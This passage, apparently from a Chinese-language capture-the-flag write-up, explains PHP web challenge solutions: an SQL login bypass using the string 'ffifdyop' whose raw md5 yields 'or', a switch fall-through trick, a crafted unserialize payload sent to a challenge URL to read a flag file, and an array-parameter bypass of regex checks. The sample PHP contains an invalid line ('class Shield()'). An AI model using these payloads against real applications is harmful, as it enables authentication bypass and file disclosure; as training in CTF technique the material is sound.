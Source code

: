 `SELECT * FROM admin WHERE pass = ''or'xxx'`就绕过了

字符串：`ffifdyop`

`md5`后，`276f722736c95d99e921722cf9ed621c`
`hex`转换成字符串：` 'or'6<trash>`

构造：`?password=ffifdyop`

## 25、switch没有break 字符与0比较绕过
switch语句中，如果一个case判断成功，同时该case没有break时，那么语句会继续执行下面每一个case中的语句，并且不需要判断case中的条件，直到遇到break为。本题中我们输入which=flag，因为php弱类型，字符串满足case 0，条件成功，那么break前的所有语句都会执行，包含flag.php成功。

## 26、unserialize()序列化

说明`flag`在`pctf.php`，但`showimg.php`中不允许直接读取`pctf.php`，只有在`index.php`中可以传入变量`class`
，`index.php`中`Shield`类的实例`$X = unserialize($g)`，`$g = $_GET['class'];`，`$X`中不知`$filename`变量，但需要找的是：`$filename = "pctf.php"`，现`$X`已知，求传入的`class`变量值。
可以进行序列化操作：
```
<!-- answer.php -->
<?php

require_once('shield.php');
$x = class Shield();
$g = serialize($x);
echo $g;

?>

<!-- shield.php -->
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = 'pctf.php') {
            $this -> file = $filename;
        }
        
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE  
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>

```
得到：
`O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`
构造：
`http://web.jarvisoj.com:32768/index.php?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`

## 30、利用提交数组绕过逻辑
重点在implode函数，它的作用是将数组拼接成一个字符串，所以使用数组绕过第一个preg_match，同时implode将数组拼接到字符串s中，满足第二个preg_match的判断。这个题原意我想是不显示源代码的，通过抓包发现cookie中的role参数，将其base64解密然后反序列化后，将guest改为admin就可以显示源代码了，但是有的旧版浏览器自动set-cookie有问题，我就遇到了，抓包没有cookie，需要自己构造序列号参数，也很简单。
`data[0]=123&data[1]=<>`